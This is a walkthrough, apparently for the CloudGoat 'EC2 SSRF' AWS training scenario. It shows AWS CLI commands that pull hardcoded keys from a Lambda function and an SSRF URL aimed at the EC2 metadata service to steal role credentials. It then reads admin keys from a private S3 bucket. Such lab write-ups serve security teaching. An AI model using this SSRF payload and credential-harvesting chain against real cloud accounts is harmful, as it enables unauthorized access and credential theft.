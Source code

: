 # EC2 SSRF
Starting as the IAM user Solus, the attacker discovers they have ReadOnly permissions to a Lambda function, where hardcoded secrets lead them to an EC2 instance running a web application that is vulnerable to server-side request forgery (SSRF). After exploiting the vulnerable app and acquiring keys from the EC2 metadata service, the attacker gains access to a private S3 bucket with a set of keys that allow them to invoke the Lambda function and complete the scenario.

Goal: Invoke the "cg-lambda-[ CloudGoat ID ]" Lambda function.

# Walkthrough

## Login

```
aws configure --profile solus
```

## List Lambda functions and the appropriate environment variables
```
aws lambda list-functions --profile solus
Found function e.g. cg-lambda-ec2_ssrf_cgidqu9n88izv2

aws lambda get-function --function-name cg-lambda-ec2_ssrf_cgidqu9n88izv2 --profile solus
Found EC2_ACCESS_KEY_ID and EC2_SECRET_KEY_ID
```

## Assume new role and list ec2 instances
```
aws configure --profile wrex

 aws ec2 describe-instances --profile wrex
 Get instance IP address e.g. 35.174.0.249
```

## Exploit SSRF Vulnerability
```
Paste the following in browser replacing 35.174.0.249 with the ec2 ip address
http://35.174.0.249/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
Found the role name

Retrieve AccessKeyId and SecretAccessKey
```

## Identify critical s3 bucket and the admin profile
```
aws configure --profile ec2
Add aws_session_token in the ~/.aws/credentials/credentials file

aws s3 ls --profile ec2
Found bucket e.g. cg-secret-s3-bucket-ec2-ssrf-cgidqu9n88izv2

List objects 
aws s3 ls s3://cg-secret-s3-bucket-ec2-ssrf-cgidqu9n88izv2 --recursive --profile ec2

Cat object
aws s3 cp s3://cg-secret-s3-bucket-ec2-ssrf-cgidqu9n88izv2/admin-user.txt - --profile ec2

Retrieve the access key and secret access key
```

## Assume role and invoke function 
```
aws configure --profile lambda

aws lambda  invoke --function-name cg-lambda-ec2_ssrf_cgidqu9n88izv2 --profile lambda ./output.json

View contents of file to see: You win!
```

# References
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/ec2_ssrf/README.md